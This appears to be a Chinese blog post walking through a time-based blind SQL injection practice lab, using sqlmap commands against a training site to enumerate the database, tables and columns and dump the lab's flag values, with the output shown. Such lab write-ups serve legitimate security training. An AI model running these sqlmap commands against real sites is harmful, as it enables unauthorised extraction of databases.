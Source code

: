 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 - 时间盲注
categories: [安全, SQL注入]
description: 掌控安全 SQL 注入靶场练习 - 时间盲注
keywords: SQL注入, SQLMAP
---
```


# 掌控安全 SQL 注入靶场练习 - 时间盲注

SQL 时间盲注

## 0x01 使用 SQLMAP 工具

### 0x01.1 dump database

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 --current-db
```

**执行结果**

```
current database: 'kanwolongxia'
```

### 0x01.2 dump tables

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 -D kanwolongxia --tables

```

**执行结果**

```
Database: kanwolongxia
[3 tables]
+--------+
| user   |
| loflag |
| news   |
+--------+
```

> 3 tables: user, loflag, news

### 0x01.3 dump columns

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag --columns
```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flaglo | varchar(255) |
| Id     | int(11)      |
+--------+--------------+
```

### 0x01.4 dump values

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag -C flaglo --dump

```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[5 entries]
+----------------+
| flaglo         |
+----------------+
| zKaQ-Moren     |
| zKaQ-QQQ       |
| zKaQ-RD        |
| zKaQ-time-hj   |
| zKaQ-time-zxxz |
+----------------+
```

## 0xGG 参考文章

+ [SQL布尔型盲注思路分析（入门必看）](https://blog.csdn.net/qq_35544379/article/details/77351783)

